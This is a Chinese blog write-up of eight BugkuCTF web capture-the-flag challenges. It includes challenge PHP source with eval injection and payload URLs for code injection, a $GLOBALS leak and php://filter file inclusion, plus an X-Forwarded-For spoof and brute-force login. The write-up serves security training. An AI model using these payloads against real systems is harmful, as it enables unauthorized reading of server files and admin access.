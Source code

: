 ```yaml
---
layout: post
title: "BugkuCTF Web Part 2"
date: 2019-10-24
excerpt: "BugkuCTF Web"
tag:
- CTF
comments: true
---
```


已经开始有题目做不出了~

## 0x00 目录

- [0x01 本地包含](#1)
- [0x02 变量1](#2)
- [0x03 Web5](#3)
- [0x04 头等舱](#4)
- [0x05 网站被黑（失败）](#5)
- [0x06 管理员系统](#6)
- [0x07 Web4](#7)
- [0x08 flag在index里](#8)



<span id = "1">

## [0x01 本地包含](https://ctf.bugku.com/challenges#%E6%9C%AC%E5%9C%B0%E5%8C%85%E5%90%AB)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/1_1.png)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/1_2.png)

打开网页之后获得题目源码

    <?php
        include "flag.php";
        $a = @$_REQUEST['hello'];
        eval( "var_dump($a);");
        show_source(__FILE__);
    ?>

包含了 flag.php，得想办法 var_dump() 出 flag.php 中的 flag

用 readfile() 函数读取 flag 即可

payload:

    http://123.206.87.240:8003/?hello=readfile(%22flag.php%22)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/1_3.png)



<span id = "2">

## [0x02 变量1](https://ctf.bugku.com/challenges#%E5%8F%98%E9%87%8F1)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/2_1.png)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/2_2.png)

打开网页后获得一个 hint

> flag In the variable ! 

和题目源码

    <?php  
        error_reporting(0);
        include "flag1.php";
        highlight_file(__file__);
        if(isset($_GET['args'])){
            $args = $_GET['args'];
            if(!preg_match("/^\w+$/",$args)){
                die("args error!");
            }
            eval("var_dump($$args);");
        }
    ?>

源码和上题很类似，就是加了对参数的判断

只需要想办法让 var_dump() 中输出的[可变变量](https://www.php.net/manual/zh/language.variables.variable.php) 显示出 flag1.php 中的变量

使用超全局变量 [$GLOBALS](https://www.php.net/manual/zh/reserved.variables.globals.php) 即可

payload:

    http://123.206.87.240:8004/index1.php?args=GLOBALS

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web1/10_3.png)



<span id = "3">

## [0x03 Web5](https://ctf.bugku.com/challenges#web5)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/3_1.png)

F12 即可发现网页有个隐藏的 div 里面放着 jsfuck

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/3_2.png)

在 console 中运行一下即可获得 flag

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/3_3.png)

然而事情却没有这么简单~

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/3_4.png)

被耍了，按照网页提示把 flag 转换为大写即可

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/3_5.png)



<span id = "4">

## [0x04 头等舱](https://ctf.bugku.com/challenges#%E5%A4%B4%E7%AD%89%E8%88%B1)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/4_1.png)

进去之后的确啥也没有，尝试抓包看看

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/4_2.png)

flag 在 response 的头里送上门了~



<span id = "5">

## [0x05 网站被黑](https://ctf.bugku.com/challenges#%E7%BD%91%E7%AB%99%E8%A2%AB%E9%BB%91)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/5_1.png)

这描述好谦虚啊，希望和他说的一样

结果没做出来，以后再挑战~



<span id = "6">

## [0x06 管理员系统](https://ctf.bugku.com/challenges#%E7%AE%A1%E7%90%86%E5%91%98%E7%B3%BB%E7%BB%9F)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/6_1.png)

进去一看是一个登录框，登陆时尝试用 burp 抓包

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/6_2.png)

提示要本地管理员登录，好吧上 XFF 头伪造 ip。具体可以看 [HTTP 基础](https://aquilao.github.io/Blog/HTTP_base/) 0x05 节“一些需要注意的 HTTP Headers”部分

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/6_3.png)

这一关过了，剩下的只需要爆破就可以了

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/6_4.png)



<span id = "7">

## [0x07 Web4](https://ctf.bugku.com/challenges#web4)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/7_1.png)

根据提示查看源码，发现有一段 js 其中部分被 url 编码了，最后再解码拼接执行

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/7_2.png)

尝试复制到 console 中运行

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/7_3.png)

发现在 eval 的时候失败了。尝试去掉 eval 函数先看看 js 的整体内容

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/7_4.png)

里面有一段字符串，提交即可获得 flag

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/7_5.png)



<span id = "8">

## [0x08 flag在index里](https://ctf.bugku.com/challenges#flag%E5%9C%A8index%E9%87%8C)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/8_1.png)

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/8_2.png)

让我们点击

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/8_3.png)

点击后 url 变的十分可疑，结合题目名猜测是存在文件包含

文件包含读取 php 文件内容的话需要使用`php://filter`封装协议对源码进行 base64 编码，具体可移步 [File Inclusion 的利用](https://aquilao.github.io/Blog/file_inclusion/) 0x04 节 “封装协议(Wrappers) 在 FI 中的利用” 部分

构造 payload

    http://123.206.87.240:8005/post/index.php?file=php://filter/read=convert.base64-encode/resource=index.php

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/8_4.png)

再 base64 解码获得 flag

![](https://github.com/Aquilao/Blog/raw/master/assets/img/BugkuCTF-img/Web2/8_5.png)